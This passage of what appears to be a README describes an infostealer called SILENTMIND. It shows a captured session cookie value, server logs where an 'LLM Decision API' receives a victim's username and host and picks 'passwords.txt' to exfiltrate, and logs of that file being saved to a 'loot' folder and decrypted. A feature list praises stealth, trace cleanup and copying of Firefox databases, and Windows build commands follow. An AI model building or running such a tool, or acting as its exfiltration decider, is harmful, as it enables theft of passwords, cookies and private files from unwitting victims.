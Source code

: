 ```
  Name: cybertalents_session
  Value: eyJpdiI6InlTeTc1dGRUUFJjYlZ3dk5ZWEROZ2c9PSIsInZhbHVlIjoiWU9RbXRIRS84eEJOTkJWWGdEV25GaVV6ZVBNdWd5S1JmUzVBNENCakRQSStWZTUxNUdiZVU0bm9TSi9qZG1wajJLdzY3TXFvYVFHYzNXYjlkcmtqZWxjM0VacG5Zcmx0N2tXSE1Rd3pwYzh2c3ZlMEptd0N4dnRNcU9JdHNSTnAiLCJtYWMiOiI1YTE1OTNhNWZkNzhmMmFlYTBjMWM2NDM2MzcwZjY0M2M4NDNmYzk3NTk4MTNlOTNkMjA0OTU0OGE1ZDllYzk3IiwidGFnIjoiIn0%3D
  Path: /
  Expires: 1757319429160
  Secure: 1
  HttpOnly: 1
```

### 3. Server-Side Processing

**Step 1: LLM Decision API**
```
== [DECISION API HIT] ==
HEADERS: Content-Type: application/json
RAW BODY: {"fingerprint": {"user": "FarisFisal", "host": "DESKTOP-56RMILU", "os": "Windows"}, "files": [...]}
[LLM DECISION RAW]: {"exfiltrate": ["passwords.txt"], "reasons": {...}}
```

**Step 2: File Upload and Decryption**
```
[+] Exfiltrated file saved to loot/20250909-092732__passwords.txt (14 bytes)
[DEBUG] Read 14 bytes for decryption
[+] Decrypted file saved to loot/20250909-092732__passwords.recovered.txt
```

## 🔒 Security Features

- **XOR Encryption** - All data encrypted with "SILENTMIND" key
- **Temporary File Cleanup** - No traces left on target system
- **Database Copying** - Handles locked Firefox databases
- **Error Handling** - Graceful failure without crashes
- **Stealth Operation** - No visible windows or alerts

## 🛠️ Development

### Compilation

**Cross-compile from macOS to Windows:**
```bash
./compile_windows.sh
```

**Compile on Windows:**
```bash
compile_windows.bat
```

**Using Makefile:**
```bash
make all
```

